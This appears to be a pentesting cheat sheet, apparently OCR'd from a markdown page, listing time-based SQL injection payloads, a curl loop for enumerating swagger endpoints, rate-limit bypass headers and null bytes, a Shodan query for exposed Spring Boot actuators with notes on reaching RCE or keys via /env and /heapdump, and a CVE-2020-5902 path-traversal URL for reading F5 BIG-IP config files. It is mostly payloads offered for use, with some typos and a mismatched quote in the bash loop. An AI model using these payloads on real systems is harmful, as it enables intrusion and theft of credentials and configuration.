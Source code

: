 ### Time Based SQLi
```sql
')orsleep(5)='
1))orsleep(5)#
"))orsleep(5)="
'))orsleep(5)='
;waitfor delay'0:0:5'--
);waitfor delay'0:0:5'--
';waitfor delay'0:0:5'--
";waitfor delay'0:0:5'--
');waitfor delay'0:0:5'--
");waitfor delay'0:0:5'--
));waitfor delay'0:0:5'--
{"param":"1")))+MySQL_payload--+--}
```
### Pull endpoints from swagger
```bash
for i in 'curl -sK https://target/api/swagger.json | jq -r '.apis[].path'`;do echo $i;curl "https://target/$i" -iko /dev/null -sw "%{http_code}\n";done
```
### Pull URL from junk data using grep
```bash
cat file.txt | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
```
```bash
curl https://abc.com/file.js | grep -Eo "(http|https)://[a-zA-Z0-9/?=_=]*"*
```
### Rate Limit Bypass
##### IP Rotation --> Sending new ip's
- Null byte --> %00,%0d,%0a,%09
- abc:email:test111@abc.com%00
- X-Forwarded-For: 127.0.0.1
- Double X-Forwarded-For: 127.0.0.1
- X-Remote-Ip: 127.0.0.1
- X-Originating-IP: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Client-IP: 127.0.0.1
- X-Host: 127.0.0.1

### Fetch Actuator from shodan
`org:abc.com http.favicon.hash:116323821`
- use the above query on shodan to find Spring Boot server and the chech for exposed actuators. 
- If /env is available you can possibly acheive RCE. 
- If /heapdump is accessible you may find private keys and tokens.
  
### Read Arbitrary Files
##### CVE-2020-5902
`https://[host]tmui/login.jsp/..;/tmui/localb/workspace/fileRead.jsp?filaName=/config/bigip.licence` ==also== `/config/bigip.confi`
